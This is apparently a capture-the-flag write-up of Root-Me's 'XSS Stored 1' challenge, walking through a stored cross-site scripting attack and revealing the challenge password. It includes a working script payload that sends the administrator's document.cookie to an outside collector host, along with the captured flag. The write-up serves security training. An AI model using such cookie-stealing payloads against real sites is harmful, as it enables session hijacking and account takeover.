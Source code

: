 # [XSS Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

**NOTE:** After reading some other solutions using [postbin](https://postb.in/) is 
definitely the way to go instead of going to the trouble of setting up a site with PHP 
and a database. Learn something new all the time!

We get message form. Let's just post a normal message.

We can see our message is saved and directly inserted into the page

`<span><b>test</b></span><br/><span>test</span>`

I bet it's not being sanitized. So let's just put this as our message:

`<script>alert(1)</script>`

We get an alert box so definitely XSS vulnerable. To make this more realistic, we 
have to steal the administrator session cookie. So they probably have a timer running, 
where an admin will come and "read" our messages. 

So we set up a quick and dirty PHP site that takes a GET parameter and stores it in a database.

We submit a message with this: 

`<script>window.location.href='https://zumo22.000webhostapp.com/index.php?content='+document.cookie</script>`

And we wait a little bit. And the admin will get redirected to our malicious site which 
stores his cookie in our database for us to retrieve. We got it!

> ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6

Password is: **NkI9qe4cdLIO2P7MIsWS8ofD6**
